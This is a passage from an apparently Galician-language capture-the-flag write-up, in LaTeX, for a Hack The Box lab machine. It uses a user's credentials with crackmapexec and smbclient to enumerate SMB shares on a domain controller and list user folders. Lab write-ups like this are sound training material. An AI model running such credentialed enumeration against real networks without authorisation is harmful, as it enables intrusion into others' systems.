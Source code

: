 \documentclass[a4paper]{article}
\begin{document}
Agora con credenciais válidas podemos voltar a revisar \textbf{smb} e ver se existen recursos compartidos:
        \begin{lstlisting}[language=Bash, caption=Recursos compartidos, linewidth=18.7cm]
$ crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p 'NewTemplateCorpUser9876' --shares
SMB   10.10.10.248 445 DC   [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:template.htb) (signing:True) (SMBv1:False)
SMB   10.10.10.248 445 DC   [+] template.htb\Tiffany.Molina:NewTemplateCorpUser9876 
SMB   10.10.10.248 445 DC   [+] Enumerated shares
SMB   10.10.10.248 445 DC   Share  Permissions  Remark
SMB   10.10.10.248 445 DC   -----  -----------  ------
SMB   10.10.10.248 445 DC   ADMIN$  Remote Admin
SMB   10.10.10.248 445 DC   C$   Default share
SMB   10.10.10.248 445 DC   IPC$   READ   Remote IPC
SMB   10.10.10.248 445 DC   IT  READ   
SMB   10.10.10.248 445 DC   NETLOGON  READ   Logon server share 
SMB   10.10.10.248 445 DC   SYSVOL READ   Logon server share 
SMB   10.10.10.248 445 DC   Users  READ   

$ smbclient -U'template.htb/Tiffany.Molina%NewTemplateCorpUser9876'  -L //10.10.10.248

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	IT              Disk
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
	Users           Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.248 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

$ smbclient -U'template.htb/Tiffany.Molina%NewTemplateCorpUser9876'  //10.10.10.248/Users
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Mon Apr 19 08:20:26 2021
  ..                                 DR        0  Mon Apr 19 08:20:26 2021
  Administrator                       D        0  Mon Apr 19 07:18:39 2021
  All Users                       DHSrn        0  Sat Sep 15 14:21:46 2018
  Default                           DHR        0  Mon Apr 19 09:17:40 2021
  Default User                    DHSrn        0  Sat Sep 15 14:21:46 2018
  desktop.ini                       AHS      174  Sat Sep 15 14:11:27 2018
  Public                             DR        0  Mon Apr 19 07:18:39 2021
  Ted.Graves                          D        0  Mon Apr 19 08:20:26 2021
  Tiffany.Molina                      D        0  Mon Apr 19 07:51:46 2021


\end{lstlisting}
\end{document}
